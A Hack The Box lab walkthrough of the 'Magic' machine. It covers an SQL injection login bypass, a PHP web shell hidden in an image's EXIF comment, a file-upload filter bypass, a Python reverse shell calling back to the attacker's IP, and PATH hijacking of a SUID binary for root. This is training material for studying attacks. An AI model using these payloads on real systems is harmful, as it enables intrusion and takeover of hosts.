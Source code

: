 ```yaml
---
layout: post
title:  "HTB Magic Walkthrough"
author: nanobyte
date:   2020-08-31
description: Hack The Box writeup for Magic, Retired Linux Medium Box
tags: HTB_Walkthrough 
---
```


I began with some simple enumeration scans:

{% highlight bash linenos %}
nmap -sV -sC -p- 10.10.10.185                                                                                                                                                                               [478/478]
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-26 20:08 CDT
Nmap scan report for 10.10.10.185                      
Host is up (0.043s latency).                                                                                         
Not shown: 65533 closed ports                                                                                        
PORT   STATE SERVICE VERSION                                                                                         
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)                                    
| ssh-hostkey:                                                                                                       
|   2048 06:d4:89:bf:51:f7:fc:0c:f9:08:5e:97:63:64:8d:ca (RSA)                                                                                                                                                                             
|   256 11:a6:92:98:ce:35:40:c7:29:09:4f:6c:2d:74:aa:66 (ECDSA)                                                                                                                                                                            
|_  256 71:05:99:1f:a8:1b:14:d6:03:85:53:f8:78:8e:cb:88 (ED25519)                                                    
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))                                                                                                                                                                                        
|_http-server-header: Apache/2.4.29 (Ubuntu)                                                                         
|_http-title: Magic Portfolio                                                                                        
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel                                                              
                                                                                                                     
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .                                                                                                                                             
Nmap done: 1 IP address (1 host up) scanned in 41.57 seconds
{% endhighlight %}

{% highlight bash linenos %}
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://10.10.10.185 -t 30
===============================================================                                                      
Gobuster v3.0.1                                                                                                      
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)                                                      
===============================================================                                                                                                                                                                            
[+] Url:            http://10.10.10.185                                                                                                                                                                                                    
[+] Threads:        30                                                                                                                                                                                                                     
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt                                                                                                                                                            
[+] Status codes:   200,204,301,302,307,401,403                                                                                                                                                                                            
[+] User Agent:     gobuster/3.0.1                                                                                   
[+] Timeout:        10s                                                                                                                                                                                                                    
===============================================================                                                                                                                                                                            
2020/05/26 20:10:17 Starting gobuster                                                                                                                                                                                                      
===============================================================                                                                                                                                                                            
/assets (Status: 301)                                                                                                                                                                                                                      
/images (Status: 301)                                                                                                                                                                                                                      
===============================================================                                                                                                                                                                            
2020/05/26 20:12:26 Finished                                                                                                                                                                                                               
===============================================================
{% endhighlight %}

I was able to identify SQL Injection on a login page, at http://10.10.10.185/login.php, using the following in the username and password fields:

{% highlight bash linenos %}
Username: ' or 1=1 --
Password: ' or 1=1 --
{% endhighlight %}

I tried to upload a PHP reverse shell, but got an error back asking `What are you trying to do here!?` so obviously it is blocked. By changing .php to .jpg resulted in the same error, so moved on. I downloaded an image from the internet, named it index.jpeg and used exfiltool to make a malicious image file:

{% highlight bash linenos %}
exiftool -Comment='<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>' index.jpeg
{% endhighlight %}

Once I uploaded, I used BURP to intercept the image file, and sent to repeater. Once in repeater, I changed the filename to index.php.jpeg and sent the POST forward:

<img src="/images/posts/magic_walkthrough/burp_repeater.png" alt="burp_repeater">

Once the malicious image was uploaded, I went back to the home page that was full of images, and I found that images were uploaded to `/images/uploads`. With this, I went to my image at `10.10.10.186/images/uploads/index.php.jpeg` and could then run commands:


{% highlight bash linenos %}
http://10.10.10.185/images/uploads/index.php.jpeg?cmd=ls
{% endhighlight %}

Then, I got to work on a reverse shell! There were many shells that would not connect back. Eventually, I found python3 in `/usr/bin` and used a python reverse shell using my web shell:

{% highlight bash linenos %}
/usr/bin/python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.15.64",31337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
http://10.10.10.185/images/uploads/index.php.jpeg?cmd=ls
{% endhighlight %}

And I got a reverse shell back:

<img src="/images/posts/magic_walkthrough/shell.png" alt="shell">

I then began enumerating the `/var/www/Magic directory`, working my way down. Eventually I came across a `bk.sql` file, that had hardcoded credentials:

<img src="/images/posts/magic_walkthrough/bk-sql.png" alt="bk-sql">

It did not work for root, but there is another user on the system, `theseus`. I was able to log right in as that user:

<img src="/images/posts/magic_walkthrough/theseus.png" alt="theseus">

And I owned user:

{% highlight bash linenos %}
cat /home/theseus/user.txt
xxxxxxxxxxxxxxxxxxxxff70c41c8b037eaab
{% endhighlight %}

While enumerating for root, I found that the `sysinfo` binary had SUID set:

{% highlight bash linenos %}
find / -perm -u=s -type f 2>/dev/null
...
/bin/sysinfo
...
{% endhighlight %}

Looking on the internet, there are a lot of MagniComp vulnerabilities that appeared for this binary. Ultimately, this was a combination of two attacks to get root. First, was a PATH injection. I had to set a path, in this case `/tmp`, into the `$PATH` variable for a malicious binary to run:

<img src="/images/posts/magic_walkthrough/path-injection.png" alt="path-injection">

And now that we have our path set, let's make the malicious binary. When sysinfo runs, it calls lshw to look at the hardware on the system. Make a malicious lshw file:

{% highlight bash linenos %}
echo "/bin/cat /root/root.txt" > lshw
chmod 777 lshw
{% endhighlight %}

And then once sysinfo is run, you will have root!


{% highlight bash linenos %}
cat /root/root.txt
xxxxxxxxxxxxxxxxxx051a7763c65c29a26f4
{% endhighlight %}
